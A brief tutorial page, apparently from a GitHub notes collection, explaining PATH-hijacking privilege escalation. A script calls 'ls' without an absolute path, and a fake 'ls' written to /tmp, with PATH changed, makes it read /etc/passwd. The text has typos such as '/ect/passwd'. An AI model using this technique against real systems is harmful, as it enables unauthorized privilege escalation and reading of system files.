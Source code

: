 # Relative path to run binary

### Table of Contents

- [Command without arguments](#command-without-arguments)
- [Docu](#documentation)

## Command without arguments

**Attention** if you want escalate privileges, the vulnerable script needs at least to have suid permission.

#### Explanation

When a program refere to a binary command without giving the absolute path, you can execute your own program instead of the command.

This program show below refer to this venurability:

```
#!/bin/bash

ls /ect/passwd
```

When bash interpret `ls`, he is trying to find the command located in the `env | grep PATH`.

It try every directory, from letf to right, to check if the executable is located in. If it is, he execute it.
The tricks is to create a new file name "ls" write some code to execute at the emplacement /ect/passwd.

```
#write the command cat inside a ls file located in /tmp
echo cat > /tmp/ls
chmod +x /tmp/ls

#modifie the PATH, to get bash to find and execute your ls file instead of the real one.
PATH=/tmp
```

Now the previous script execute `cat /etc/passwd` instead of `ls /etc/passwd`.

### Documentation

- [SUID redhat](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit)<br>

---

[**:arrow_right_hook: Back home**](/README.md)
